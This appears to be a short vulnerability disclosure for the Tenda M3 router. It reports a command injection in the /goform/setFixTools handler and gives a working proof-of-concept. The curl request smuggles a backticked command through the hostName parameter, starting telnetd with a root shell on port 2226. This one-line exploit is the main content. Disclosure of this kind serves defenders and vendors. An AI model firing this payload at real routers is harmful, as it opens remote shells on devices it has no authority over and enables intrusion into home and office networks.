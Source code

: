 # Tenda M3 Command Injection

**Vender** ：Tenda

**Firmware version**:V1.0.0.12(4856)

**Exploit Author**: GD@hillstone

**Vendor Homepage**: https://www.tenda.com.cn/



## POC

An issue was discovered in Tenda M3 1.10 V1.0.0.12(4856) devices. An HTTP request parameter is used in command string construction within the handler function of the /goform/setFixTools route. This could lead to Command Injection via Shell Metacharacters.

![1](./1.png)

![2](./2.jpg)



When we send packets, the router will be shell

```
curl -i -X GET "http://192.168.10.1//goform/setFixTools?networkTool=1&hostName=\`telnetd%20-p%202226%20-l%20/bin/sh\`&packageNum=4&packageSize=3" -b "Cookie: user=admin; "
```





![poc](./poc.jpg)

